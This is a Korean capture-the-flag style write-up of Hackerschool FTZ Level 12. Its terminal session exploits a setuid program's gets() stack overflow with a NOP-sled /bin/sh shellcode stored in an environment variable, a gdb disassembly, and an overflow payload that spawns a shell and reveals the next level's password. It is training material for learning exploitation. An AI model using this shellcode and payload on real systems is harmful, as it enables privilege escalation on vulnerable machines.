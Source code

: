 # Hackerschool FTZ Level 12

```
login as: level12
level12@192.168.205.134's password:
[level12@ftz level12]$ ll
total 28
-rwsr-x---    1 level13  level12     13771 Mar  8  2003 attackme
-rw-r-----    1 root     level12       204 Mar  8  2003 hint
drwxr-xr-x    2 root     level12      4096 Feb 24  2002 public_html
drwxrwxr-x    2 root     level12      4096 Jan 15  2009 tmp
[level12@ftz level12]$ cat hint


#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main( void )
{
        char str[256];

        setreuid( 3093, 3093 );
        printf( "문장을 입력하세요.\n" );
        gets( str );
        printf( "%s\n", str );
}


[level12@ftz level12]$ export EGG=`python -c 'print "\x90"*1024+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`
[level12@ftz level12]$ /tmp/ge EGG
0xbffff8a1
[level12@ftz level12]$ gdb -q ./attackme
(gdb) disas main
Dump of assembler code for function main:
0x08048470 <main+0>:    push   %ebp
0x08048471 <main+1>:    mov    %esp,%ebp
0x08048473 <main+3>:    sub    $0x108,%esp
0x08048479 <main+9>:    sub    $0x8,%esp
0x0804847c <main+12>:   push   $0xc15
0x08048481 <main+17>:   push   $0xc15
0x08048486 <main+22>:   call   0x804835c <setreuid>
0x0804848b <main+27>:   add    $0x10,%esp
0x0804848e <main+30>:   sub    $0xc,%esp
0x08048491 <main+33>:   push   $0x8048538
0x08048496 <main+38>:   call   0x804834c <printf>
0x0804849b <main+43>:   add    $0x10,%esp
0x0804849e <main+46>:   sub    $0xc,%esp
0x080484a1 <main+49>:   lea    0xfffffef8(%ebp),%eax
0x080484a7 <main+55>:   push   %eax
0x080484a8 <main+56>:   call   0x804831c <gets>
0x080484ad <main+61>:   add    $0x10,%esp
0x080484b0 <main+64>:   sub    $0x8,%esp
0x080484b3 <main+67>:   lea    0xfffffef8(%ebp),%eax
0x080484b9 <main+73>:   push   %eax
0x080484ba <main+74>:   push   $0x804854c
0x080484bf <main+79>:   call   0x804834c <printf>
0x080484c4 <main+84>:   add    $0x10,%esp
0x080484c7 <main+87>:   leave
0x080484c8 <main+88>:   ret
0x080484c9 <main+89>:   lea    0x0(%esi),%esi
0x080484cc <main+92>:   nop
0x080484cd <main+93>:   nop
0x080484ce <main+94>:   nop
0x080484cf <main+95>:   nop
End of assembler dump.
(gdb) quit
[level12@ftz level12]$ (python -c 'print "A"*268+"\xff\xf8\xff\xbf"'; cat)|./attackme
문장을 입력하세요.
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA??

my-pass
TERM environment variable not set.

Level13 Password is "have no clue".
```

`Level11` 과 같게 bof 를 사용한 문제다. 하지만 fsb 가 없고, 입력을 `gets` 함수로 받는다는 점이 다르다.

`Level11` 과 똑같이 풀되, `python -c <명령줄>` 을 통해서 파이썬 출력을 하고,

`| (파이프라인)` 을 통해서 `gets` 함수 부분에서 위의 출력을 표준 입력을 통해 전달해주고,

 `; (세미콜론)` 를 통해서 `cat` 바이너리를 함께 실행하도록 하여, 쉘이 따진 이후에 입력을 보낼 수 있도록 한다.

정리하자면, `python -c 'print "A"*268+"\xff\xf8\xff\xbf"'` 를 통해서 `A` 268개와, `0xbffff8ff` 를 출력하고,

`cat` 명령을 실행시켜서 입력을 받고, 그 입력을 그대로 출력하는 상태로 만든다.

`|` 를 통해 파이썬으로 출력한 페이로드가 전달되고 쉘이 열린다.

그 이후에는 입력을 `cat` 명령을 통해 쉘에 명령을 내린다.